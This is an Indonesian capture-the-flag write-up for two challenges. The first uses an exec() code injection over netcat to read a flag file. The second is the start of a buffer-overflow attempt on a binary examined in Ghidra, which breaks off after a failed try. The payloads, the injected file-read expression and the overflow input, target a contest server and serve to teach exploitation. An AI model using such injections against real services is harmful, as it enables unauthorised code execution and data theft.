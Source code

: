 Didalam kode ada perintah "exec()" yang berfungsi unutuk mengeksekusi strings. Dalam masalah ini string yang dieksekusi adalah string dari variable "my_input", yang artimya kita bisa menjalankan perintah python3 di dalam "exec()".

```sh
nc 103.144.22.12 1003
Masukan Angka: print(open("flag.txt", "r").read())
tangerangkota{Welc0m3_T0_V3ry-F1rsT-TNGKOTA-CTF...:)}

Anda memilih:  print(open("flag.txt", "r").read())
Admin Memilih:  27272313
Tidak Cocok :(
```

Diatas saya menginputkan "print(open("flag.txt", "r").read())" sehingga terlihat flagnya:
tangerangkota{Welc0m3_T0_V3ry-F1rsT-TNGKOTA-CTF...:)}

## So Ez :( (636)

Mari kita buka codenya

```sh
chmod +x ez-pwn
./ez-pwn 
Masukan Angka (Max 10 digits)
123
Nope :)
```

Ok, coba buka di ghidra, setelah itu masuk ke function main()

![](Pasted%20image%2020220320063212.png)

Kita bisa lihat ada variable "hack_me" dan dia terletak di bahaw variable "buf" yang memiliki lenght 100, artinya kita bisa meng-overwrite variabel "hack_me" dengan buffer overflow.

```sh
(python -c "print 'A'*100";cat) | ./ez-pwn
Masukan Angka (Max 10 digits)
Nope :)
```
